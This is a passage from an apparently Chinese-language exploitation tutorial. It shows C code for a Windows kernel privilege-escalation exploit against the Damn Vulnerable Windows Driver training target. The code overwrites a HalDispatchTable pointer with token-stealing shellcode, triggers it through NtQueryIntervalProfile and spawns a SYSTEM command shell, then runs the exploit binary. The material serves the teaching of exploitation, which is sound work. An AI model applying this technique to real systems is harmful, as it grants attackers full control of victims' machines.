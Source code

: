 ```

 // Load the Kernel Executive ntoskrnl.exe in userland and get some symbol's kernel address
 if(LoadAndGetKernelBase() == FALSE) {
  return FALSE;
 }

 // Retrieve the address of the shellcode
 ShellcodeAddrStorage = (ULONG_PTR)UserShellcodeSIDListPatchUser4Args;

 // Retrieve the address of the second entry within the HalDispatchTable
 HalDispatchTableTarget = HalDispatchTable + sizeof(ULONG_PTR);

 // Retrieve the address of the syscall NtQueryIntervalProfile within ntdll.dll
 NtQueryIntervalProfile  = (_NtQueryIntervalProfile)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtQueryIntervalProfile");

 // Overwrite the pointer in HalDispatchTable
 if(OverwriteHalDispatchTable(HalDispatchTableTarget, ShellcodeAddrStorage) == FALSE) {
  return FALSE;
 }

 // Call the function in order to launch our shellcode
 // kd> u nt!KeQueryIntervalProfile
 NtQueryIntervalProfile(2, &dummy);

 if (CreateChild(_T("C:\\WINDOWS\\SYSTEM32\\CMD.EXE")) != TRUE) {
  wprintf(L"Error: unable to spawn process, Error: %d\n", GetLastError());
  return FALSE;
 }

 return TRUE;
}

```

6. w00t ?
---------

* * *

接着试图利用

```
DVWDExploit.exe --exploit-overwrite-profile-32

```

![enter image description here](http://drops.javaweb.org/uploads/images/fabd34eaddf58061b11bb515ceb01772f3d1869b.jpg)

引用 0x01
-------

* * *
